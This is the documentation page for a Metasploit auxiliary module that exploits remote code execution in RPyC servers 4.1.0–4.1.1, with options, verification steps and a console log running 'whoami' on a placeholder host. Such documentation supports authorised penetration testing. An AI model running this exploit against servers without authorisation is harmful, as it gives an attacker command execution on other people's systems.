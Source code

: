 ## Introduction
This module automatically exploits a vulnerability to remotely execute code on
RPyC servers running versions 4.1.0 and 4.1.1. The vulnerability allows a
remote attacker to dynamically modify object attributes to construct a remote
procedure call that executes code for an RPyC service with default
configuration settings.

## Vulnerable Application:

RPyC servers running versions between 4.1.0 and 4.1.1.

Link to vulnerable RPyC version:
https://github.com/tomerfiliba-org/rpyc/releases/tag/4.1.1


Link to Advisory:
https://github.com/advisories/GHSA-pj4g-4488-wmxm

## Options

**RHOST**

Configure the remote vulnerable system.

**RPORT**

Configure the TCP port of the RPyC server.

**COMMAND**

Configure the command to execute on the remote system.

## Verification Steps

1. Have exploitable RPyC server (example IP: 0.0.0.0):
2. Start `msfconsole`:
3. Do:  ```use auxiliary/scanner/http/rpyc_rce```
4. Do: ```set RHOST 0.0.0.0```
7. Do: ```set RPORT 18812``` (Set the remote port on which the server is accessible)
8. Do: ```set COMMAND whoami``` (Set the command you want to execute)
9. Do: ```run```
10. Logs the output of the command you specified.


## Scenarios

Exploiting a vulnerable RPyC server located at 0.0.0.0:9999 with the command
`whoami`:

```log
msf6 auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
msf6 auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
msf6 auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
msf6 auxiliary(scanner/http/rpyc_rce) > run
```

Demo example output for the module:

```log
msf6 > use auxiliary/scanner/http/rpyc_rce
msf6 auxiliary(scanner/http/rpyc_rce) > show options

Module options (auxiliary/scanner/http/rpyc_rce):

Name     Current Setting  Required  Description
----     ---------------  --------  -----------
COMMAND  whoami           yes       Command to execute
RHOST    0.0.0.0          yes       Target address
RHOSTS   0.0.0.0          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasp
loit/basics/using-metasploit.html
RPORT    9999             yes       Target port
THREADS  1                yes       The number of concurrent threads (max one per host)


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/rpyc_rce) > set RHOST 0.0.0.0
RHOST => 0.0.0.0
msf6 auxiliary(scanner/http/rpyc_rce) > set RPORT 9999
RPORT => 9999
msf6 auxiliary(scanner/http/rpyc_rce) > set COMMAND whoami
COMMAND => whoami
msf6 auxiliary(scanner/http/rpyc_rce) > run

[*] Running for 0.0.0.0...
[*] Connected to RPyC service at 0.0.0.0:9999
[*] Executing command: whoami
[*] Command result: nobody
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
